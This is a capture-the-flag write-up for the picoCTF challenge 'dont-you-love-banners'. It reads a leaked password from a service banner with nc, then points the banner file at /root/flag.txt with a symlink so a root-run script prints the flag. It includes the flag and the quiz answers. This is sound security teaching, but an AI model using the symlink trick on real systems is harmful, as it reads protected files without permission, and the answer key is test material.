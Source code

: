 # dont-you-love-banners

Can you abuse the banner?

Additional details will be available after launching your challenge instance.

-----

Launching the instance, we are given two ports to connect, namely `61985` and `53299` with the former being observed leaking sensitive information.

Connecting to this via `nc`, we get the following:

```                                                       
SSH-2.0-OpenSSH_7.6p1 My_Passw@rd_@1234
```

Connecting to the second port, inputting the password string, and answering the subsequent questions, we get access to the instance as the `player` user:

```
what is the password? 
My_Passw@rd_@1234
What is the top cyber security conference in the world?
defcon
the first hacker ever was known for phreaking(making free phone calls), who was it?
john draper
```

Within the `/home/player` directory there are two files, `banner` and `text`, which contain:

```
$ cat banner
*************************************
**************WELCOME****************
*************************************
```

```
$ cat text
keep digging
```

Listing the contents of `/root/home` reveals the `flag.txt` file which we cannot read and `script.py` which carries out the logic that gave us access to the instance.

Within the script, it reads the contents of `/home/player/banner` to display it out. As we have access to this file as the `player` user, we can create a symlink to `/root/flag.txt` to read its contents:

```
$ ls -la
...
-rw-r--r-- 1 player player  114 Feb  7  2024 banner
-rw-r--r-- 1 root   root     13 Feb  7  2024 text
$ ls -la /root
...
-rwx------ 1 root root   46 Mar  9  2024 flag.txt
-rw-r--r-- 1 root root 1317 Feb  7  2024 script.py
```

```
$ ln -s /root/flag.txt /home/player/banner
```

Connecting to the instance as before with `nc`, we get the flag returned in place of the welcome banner:

```
picoCTF{b4nn3r_gr4bb1n9_su((3sfu11y_b3ee718e}
```